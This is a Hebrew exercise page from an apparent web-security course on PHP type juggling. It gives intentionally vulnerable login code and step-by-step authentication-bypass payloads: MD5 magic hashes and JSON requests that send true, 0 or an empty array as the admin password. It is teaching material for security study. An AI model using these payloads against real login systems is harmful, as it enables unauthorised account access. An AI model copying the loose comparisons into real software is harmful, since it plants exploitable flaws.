

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/6 - תנאי מרוץ ולוגיקה עסקית/6.3 - בלבול טיפוסים - Type Juggling/6.3 - בלבול טיפוסים - Type Juggling - תרגיל/index.html · generator: mkdocs

# בלבול טיפוסים - Type Juggling - תרגול

## תרגיל 1 - bypass אימות עם magic hash (Apprentice)

**רקע:**
לפניכם מערכת כניסה ב-PHP שמשתמשת בהשוואה רופפת של MD5. המטרה: להיכנס ללא ידיעת הסיסמה.

**קוד המערכת:**

```php
$password = $_POST['password'];
$hash = md5($password);
$stored_hash = $db->getHash($username);  // "0e462097431906509019562988736854"

if ($hash == $stored_hash) {
    login($username);
}
```

**שלבים:**

1. שימו לב שה-hash השמור מתחיל ב-`0e`
2. מצאו מחרוזת שה-MD5 שלה גם מתחיל ב-`0e` ואחריו רק ספרות
3. השתמשו ברשימת ה-magic hashes המוכרות
4. שלחו את המחרוזת כסיסמה

**שאלות:**
- למה `"0e462..."` מושווה ל-`0` בהשוואה רופפת?
- איזה מחרוזות עובדות כאן?
- האם התקיפה תעבוד ב-PHP 8.0 ומעלה?

## תרגיל 2 - bypass אימות עם JSON type manipulation

**רקע:**
אפליקציית PHP שמקבלת JSON ומשתמשת בהשוואה רופפת לאימות סיסמה.

**קוד המערכת:**

```php
$data = json_decode(file_get_contents('php://input'), true);

$user = getUserByUsername($data['username']);

if ($data['password'] == $user['password']) {
    createSession($user);
    echo json_encode(['success' => true]);
}
```

**שלבים:**

1. נסו את הבקשה הרגילה:

```http
POST /login HTTP/1.1
Content-Type: application/json

{"username": "admin", "password": "wrongpassword"}
```

2. שנו את טיפוס הסיסמה ל-`true`:

```http
POST /login HTTP/1.1
Content-Type: application/json

{"username": "admin", "password": true}
```

3. נסו גם עם `0` (ב-PHP < 8.0):

```http
POST /login HTTP/1.1
Content-Type: application/json

{"username": "admin", "password": 0}
```

4. נסו עם מערך ריק:

```http
POST /login HTTP/1.1
Content-Type: application/json

{"username": "admin", "password": []}
```

**שאלות:**
- איזה payload עבד? למה?
- מה ההבדל בין שליחת `true` (בוליאני) ל-`"true"` (מחרוזת)?
